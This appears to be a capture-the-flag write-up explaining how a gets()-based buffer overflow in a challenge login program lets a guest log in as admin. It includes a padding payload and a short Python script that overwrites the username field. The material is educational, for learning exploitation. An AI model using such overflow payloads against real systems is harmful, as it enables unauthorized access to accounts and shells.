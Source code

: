 <img width="1154" height="670" alt="image" src="https://github.com/user-attachments/assets/2a8af2e8-9ff1-4bc4-9291-d9e5db3e2e7e" />  

Reading the code, easy to see that :  
<img width="686" height="266" alt="image" src="https://github.com/user-attachments/assets/9ff938ae-4b1b-4a35-8106-8a162d953d0b" />  

This `gets` function can cause buffer overflow to exploit. 

<img width="246" height="64" alt="image" src="https://github.com/user-attachments/assets/93a9839b-5cfb-446b-b1c0-c2e1f97c5099" />  

It's only read 32 bytes and jump to the next address. So with that idea, i would try to put the payload to password field.  
```
Username: guest
Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin
```
The notification said, i logged as `admin` successfully but wrong password. So here is admin's password:  
<img width="292" height="119" alt="image" src="https://github.com/user-attachments/assets/ebc7591c-34e7-4701-8c0b-1dc7a85965d4" />  

As you can see, it's not ASCII text but emoji. That mean we can not write it normaly. So we need to encode it to utf-8. 
I wrote a python scripts to inject the payload:
```
# {admin_password}{\x00}{padding}{admin_username}{\x00}
import sys
payload = "🇦🇩🇲🇮🇳".encode('utf-8') + b"\x00"
payload += b"A" * (32 - len("🇦🇩🇲🇮🇳".encode('utf-8') + b"\x00"))
payload += b"admin\x00"
sys.stdout.buffer.write(b"guest\n")          
sys.stdout.buffer.write(payload + b"\n")
```

In my first payload, it's still login as `admin` but cann't jump back to username. That why with the new payload, i put the correct password first then buffer overflow, made it jump back to username with `admin`. 
Successfully entering the shell, our job is find the flag was hidden with some OS Command.  
Peace!





